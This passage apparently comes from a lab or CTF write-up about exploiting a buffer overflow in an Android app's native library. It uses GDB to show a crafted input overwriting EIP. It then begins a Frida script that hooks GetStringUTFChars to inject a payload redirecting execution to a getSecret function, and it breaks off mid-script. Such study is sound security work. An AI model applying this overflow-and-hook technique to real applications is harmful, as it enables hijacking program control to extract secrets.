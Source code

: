 ```gdb
b *kousha
```
Then, use the c command to continue execution:

```gdb
c
```

![gdb-remote-2](https://github.com/user-attachments/assets/f1e1302f-c53b-41c8-bdb3-bc775fd547e2)

I used `aaaaaaaaaaaaaabcde` as the input. This consists of 14 'a' characters to reach the offset and `bcde` to overwrite the `EIP` register.
The breakpoint will be hit, and GDB will stop at the first instruction of the `kousha` function.
You can view the next 30 instructions with:

```gdb
x/30i $eip
```

![gdb-remote-3](https://github.com/user-attachments/assets/89562b1c-05df-44a2-942a-369a078af528)

You might see a `jmp` instruction creating a loop that corresponds to the `while` loop in the `kousha` function. Set a breakpoint after the loop and continue debugging.

![gdb-remote-4](https://github.com/user-attachments/assets/8a446986-3111-40ea-b5a0-c56080ed654c)

Use the `ni` (next instruction) command in GDB to step through the instructions one by one. After executing the `pop ebp` instruction, the `ebp` register will show `aaaa`.

![gdb-remote-5](https://github.com/user-attachments/assets/0e68d3cd-5ef3-479b-8d73-fccc9d805f0a)

When the `ret` instruction is executed, the `eip` register will be set to `bcde`.

![gdb-remote-6](https://github.com/user-attachments/assets/7220c6a0-89c2-4a87-a52a-c42b99379844)

We successfully overwrote the `EIP` register with the value `bcde`. Now, the goal is to override it with the address of our `getSecret` function. To do this, let's dive into Frida.

I’ve set up the Frida Server on the Android Emulator, enabling us to connect to it. The plan involves three steps:

- Find the Base Address of the `getSecret` Function.
- Craft a Payload `(offset + *getSecret)`.
- Send the Payload as User Input to Trigger the Overflow.

However, it's not as straightforward as it sounds. After trying several methods to modify the user input, I found that hooking `GetStringUTFChars` was the most effective approach. So, we'll hook `GetStringUTFChars` from the `libnative-lib.so` library.

For additional learning, I've included some extra code to explore Frida's capabilities, such as finding the base address of a library using `Module.findBaseAddress("libname.so")`.

Here's the Frida script:

```js
var libnative_lib_so = 'libnative-lib.so';

function start_timer_for_intercept() {
  setTimeout(function() {
    console.log("[+] " + libnative_lib_so + " Base Address -> " + Module.findBaseAddress(libnative_lib_so));
    
    var offset_of_GetStringUTFChars = 0x51110;
    var dynamic_address_of_GetStringUTFChars = Module.findBaseAddress(libnative_lib_so).add(offset_of_GetStringUTFChars);
    
    Interceptor.attach(dynamic_address_of_GetStringUTFChars, {
      onLeave: function(retval) {
        var uInput = retval.readCString();
```